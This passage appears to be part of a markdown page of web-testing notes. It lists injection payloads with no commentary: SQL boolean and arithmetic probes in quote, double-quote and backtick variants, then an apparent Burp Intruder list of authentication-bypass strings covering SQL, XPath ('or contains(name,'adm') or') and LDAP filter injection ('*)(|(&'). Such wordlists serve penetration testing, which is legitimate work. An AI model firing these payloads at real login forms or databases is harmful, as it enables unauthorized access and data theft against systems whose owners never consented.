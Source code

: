                 1`%`2
                1`&`1`=`1
                1`&&`2`=`1
                -1`||`1`=`1
                -1`oR`1`=`1
                1`aND`1`=`1
                1')>('0
                2')-('1
                0')+('1
                1')*('1
                1')%('2
                1')&'1'=('1
                1')&&'1'=('1
                -1')||'1'=('1
                -1')oR'1'=('1
                1')aND'1'=('1
                1")>("0
                2")-("1
                0")+("1
                1")*("1
                1")%("2
                1")&"1"=("1
                1")&&"1"=("1
                -1")||"1"=("1
                -1")oR"1"=("1
                1")aND"1"=("1
                1`)>(`0
                2`)-(`1
                0`)+(`1
                1`)*(`1
                1`)%(`2
                1`)&`1`=(`1
                1`)&&`1`=(`1
                -1`)||`1`=(`1
                -1`)oR`1`=(`1
                1`)aND`1`=(`1
                ```
                
            - Intruder 2
                
                ```markdown
                ' or '1'='1
                ' or ''='
                ' or 1]%00
                ' or /* or '
                ' or "a" or '
                ' or 1 or '
                ' or true() or '
                'or string-length(name(.))<10 or'
                'or contains(name,'adm') or'
                'or contains(.,'adm') or'
                'or position()=2 or'
                admin' or '
                admin' or '1'='2
                *
                *)(&
                *)(|(&
                pwd)
                *)(|(*
                *))%00
                admin)(&)
                pwd
                admin)(!(&(|
                pwd))